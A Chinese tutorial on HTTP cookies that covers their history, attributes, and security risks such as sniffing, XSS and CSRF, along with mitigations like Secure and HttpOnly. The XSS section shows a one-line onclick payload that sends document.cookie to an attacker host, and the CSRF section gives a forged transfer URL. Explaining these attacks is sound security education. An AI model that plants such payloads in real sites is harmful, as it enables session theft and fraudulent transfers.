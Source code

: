 # 前言
网络早期最大的问题之一是如何管理状态。简而言之，服务器无法知道两个请求是否来自同一个浏览器。当时最简单的方法是在请求时，在页面中插入一些参数，并在下一个请求中传回参数。这需要使用包含参数的隐藏的表单，或者作为URL参数的一部分传递。这两个解决方案都手动操作，容易出错。

网景公司当时一名员工Lou Montulli，在1994年将“cookies”的概念应用于网络通信，用来解决用户网上购物的购物车历史记录，目前所有浏览器都支持cookies。

# cookie是什么
cookie翻译过来是“饼干，甜品”的意思，cookie在网络应用中到处存在，当我们浏览之前访问过的网站，网页中可能会显示：你好，王三少，这就会让我们感觉很亲切，像吃了一块很甜的饼干一样。

由于http是无状态的协议，一旦客户端和服务器的数据交换完毕，就会断开连接，再次请求，会重新连接，这就说明服务器单从网络连接上是没有办法知道用户身份的。怎么办呢？那就给每次新的用户请求时，给它颁发一个身份证（独一无二）吧，下次访问，必须带上身份证，这样服务器就会知道是谁来访问了，针对不同用户，做出不同的响应。，这就是Cookie的原理。

其实cookie是一个很小的文本文件，是浏览器储存在用户的机器上的。Cookie是纯文本，没有可执行代码。储存一些服务器需要的信息，每次请求站点，会发送相应的cookie，这些cookie可以用来辨别用户身份信息等作用。

# cookie的类型
可以按照过期时间分为两类：会话cookie和持久cookie。会话cookie是一种临时cookie，用户退出浏览器，会话Cookie就会被删除了，持久cookie则会储存在硬盘里，保留时间更长，关闭浏览器，重启电脑，它依然存在，通常是持久性的cookie会维护某一个用户周期性访问服务器的配置文件或者登录信息

持久cookie 设置一个特定的过期时间（Expires）或者有效期（Max-Age）

`Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2019 07:28:00 GMT;`

# cookie的属性
## cookie的域
产生Cookie的服务器可以向set-Cookie响应首部添加一个Domain属性来控制哪些站点可以看到那个cookie，例如下面：
`Set-Cookie: name="wang"; domain="www.xxx.com"`
如果用户访问的是www.xxx.com那就会发送cookie: name="wang", 如果用户访问www.aaa.com（非www.xxx.com）就不会发送这个Cookie。

## cookie的路径 Path
Path属性可以为服务器特定文档指定Cookie，这个属性设置的url且带有这个前缀的url路径都是有效的。
例如：www.xxx.com 和 www.xxx.com/user/这两个url。www.xxx.com 设置cookie
```
Set-cookie: id="123432";domain="www.xxx.com";
```
www.xxx.com/user/ 设置cookie：

```
Set-cookie：user="wang", domain="www.xxx.com"; path=/user/
```

但是访问其他路径www.xxx.com/other/就会获得

```
cookie: id="123432"
```
如果访问v/user/就会获得

```
cookie: id="123432"
cookie: user="wang"
```

# 安全
多数网站使用cookie作为用户会话的唯一标识，因为其他的方法具有限制和漏洞。如果一个网站使用cookies作为会话标识符，攻击者可以通过窃取一套用户的cookies来冒充用户的请求。从服务器的角度，它是没法分辨用户和攻击者的，因为用户和攻击者拥有相同的身份验证。 下面介绍几种cookie盗用和会话劫持的例子：

## 网络窃听
网络上的流量可以被网络上任何计算机拦截，特别是未加密的开放式WIFI。这种流量包含在普通的未加密的HTTP清求上发送Cookie。在未加密的情况下，攻击者可以读取网络上的其他用户的信息，包含HTTP Cookie的全部内容，以便进行中间的攻击。比如：拦截cookie来冒充用户身份执行恶意任务（银行转账等）。

解决办法：服务器可以设置secure属性的cookie，这样就只能通过https的方式来发送cookies了。

## 跨站点脚本XSS
使用跨站点脚本技术可以窃取cookie。当网站允许使用javascript操作cookie的时候，就会发生攻击者发布恶意代码攻击用户的会话，同时可以拿到用户的cookie信息。

例子：
```html
<a href="#" onclick=`window.location=http://abc.com?cookie=${docuemnt.cookie}`>领取红包</a>
```

当用户点击这个链接的时候，浏览器就会执行onclick里面的代码，结果这个网站用户的cookie信息就会被发送到abc.com攻击者的服务器。攻击者同样可以拿cookie搞事情。

解决办法：可以通过cookie的HttpOnly属性，设置了HttpOnly属性，javascript代码将不能操作cookie。

## 跨站请求伪造CSRF
CSRF（Cross Site Request Forgery） 跨站请求伪造。也被称为One Click Attack和Session Riding，通常缩写为CSRF或XSRF。如果从名字你还不不知道它表示什么，你可以这样理解：攻击者（黑客，钓鱼网站）盗用了你的身份，以你的名义发送恶意请求，这些请求包括发送邮件、发送消息、盗取账号、购买商品、银行转账，从而使你的个人隐私泄露和财产损失。

### CSRF攻击实例
听了这么多，可能大家还云里雾里，光听概念可能大家对于CSRF还是不够了解，下面我将举一个例子来让大家对CSRF有一个更深层次的理解。
我们先假设支付宝存在CSRF漏洞，我的支付宝账号是lyq，攻击者的支付宝账号是xxx。然后我们通过网页请求的方式 http://zhifubao.com/withdraw?account=lyq&amount=10000&for=lyq2 可以把我账号lyq的10000元转到我的另外一个账号lyq2上去。通常情况下，该请求发送到支付宝服务器后，服务器会先验证该请求是否来自一个合法的session并且该session的用户已经成功登陆。攻击者在支付吧也有账号xxx，他知道上文中的URL可以进行转账操作，于是他自己可以发送一个请求 http://zhifubao.com/withdraw?account=lyq&amount=10000&for=xxx 到支付宝后台。但是这个请求是来自攻击者而不是来自我lyq，所以不能通过安全认证，因此该请求作废。这时，攻击者xxx想到了用CSRF的方式，他自己做了个黄色网站，在网站中放了如下代码：http://zhifubao.com/withdraw?account=lyq&amount=10000&for=xxx 并且通过黄色链接诱使我来访问他的网站。当我禁不住诱惑时就会点了进去，上述请求就会从我自己的浏览器发送到支付宝，而且这个请求会附带我的浏览器中的cookie。大多数情况下，该请求会失败，因为支付宝要求我的认证信息，但是我如果刚访问支付宝不久，还没有关闭支付宝页面，我的浏览器中的cookie存有我的认证信息，这个请求就会得到响应
，从我的账户中转10000元到xxx账户里，而我丝毫不知情，攻击者拿到钱后逍遥法外。所以以后一定要克制住自己，不要随便打开别人的链接

# Cookie与Session的区别
* cookie数据存放在客户的浏览器上，session数据放在服务器上；
* cookie不是很安全，别人可以分析存放在本地的COOKIE并进行COOKIE欺骗，考虑到安全应当使用session；
* session会在一定时间内保存在服务器上。当访问增多，会比较占用你服务器的性能。考虑到减轻服务器性能方面，应当使用COOKIE；
* 单个cookie在客户端的限制是3K，就是说一个站点在客户端存放的COOKIE不能超过3K；
Cookie和Session的方案虽然分别属于客户端和服务端，但是服务端的session的实现对客户端的cookie有依赖关系的，上面我讲到服务端执行session机制时候会生成session的id值，这个id值会发送给客户端，客户端每次请求都会把这个id值放到http请求的头部发送给服务端，而这个id值在客户端会保存下来，保存的容器就是cookie，因此当我们完全禁掉浏览器的cookie的时候，服务端的session也会不能正常使用（注意：有些资料说ASP解决这个问题，当浏览器的cookie被禁掉，服务端的session任然可以正常使用，ASP我没试验过，但是对于网络上很多用php和jsp编写的网站，我发现禁掉cookie，网站的session都无法正常的访问）。